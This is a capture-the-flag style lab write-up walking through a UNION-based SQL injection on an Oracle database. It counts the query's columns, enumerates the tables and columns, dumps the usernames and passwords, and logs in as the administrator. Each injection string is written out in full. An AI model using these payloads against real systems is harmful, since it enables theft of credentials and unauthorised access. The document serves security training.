



# SQL injection attack, listing the database contents on Oracle

<figure><figcaption></figcaption></figure>

Let's filter for `Accessories`.

<figure><figcaption></figcaption></figure>

Since we are proxying the traffic through Burp Suite, we can go to the `Proxy > HTTP History` tab to view this request.

<figure><figcaption></figcaption></figure>

Let's forward this request to the `Repeater` for further modification.

Once in the `Repeater`, let's set the `category` parameter to the following:

```
' UNION SELECT 'test' FROM dual--
```

<figure><figcaption></figcaption></figure>

Since the application returns an error, we know that the number of columns in the current query is more than 1.

Let's set the `category` parameter to the following:

```
' UNION SELECT 'test', 'test' FROM dual--
```

<figure><figcaption></figcaption></figure>

Now that we know the current query has two columns, we can start enumerating the tables.

```
' UNION SELECT table_name, NULL FROM all_tables--
```

<figure><figcaption></figcaption></figure>

Next, we need to find the columns present in the `USERS_EABGJF` table. We can do that by setting the `category` parameter to the following:

```
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS_EABGJF'--
```

<figure><figcaption></figcaption></figure>

We can now retrieve the usernames and password from the `USERNAME_LIVOZB` and `PASSWORD_XJPXQQ` columns respectively.&#x20;

For that we have to set the `category` parameter to the following:

```
' UNION SELECT USERNAME_LIVOZB, PASSWORD_XJPXQQ FROM USERS_EABGJF--
```

<figure><figcaption></figcaption></figure>

We can now login as the administrator using the following credentials:

| Username      | Password             |
| ------------- | -------------------- |
| administrator | ayzzulz0enewtllx1szu |

<figure><figcaption></figcaption></figure>

We have solved the lab

<figure><figcaption></figcaption></figure>
